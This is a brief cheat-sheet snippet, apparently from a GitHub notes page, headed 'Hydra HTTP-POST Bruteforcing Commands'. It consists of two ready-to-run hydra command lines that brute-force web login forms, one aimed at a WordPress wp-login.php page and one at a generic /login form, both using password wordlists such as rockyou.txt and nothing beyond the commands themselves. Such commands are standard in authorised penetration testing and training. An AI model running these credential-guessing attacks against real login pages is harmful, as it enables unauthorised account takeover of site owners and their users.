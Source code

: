 #### Hydra HTTP-POST Bruteforcing Commands
```
hydra -l username -P <password_list> 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The passowrd you entered for the username" -t 30

hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

```
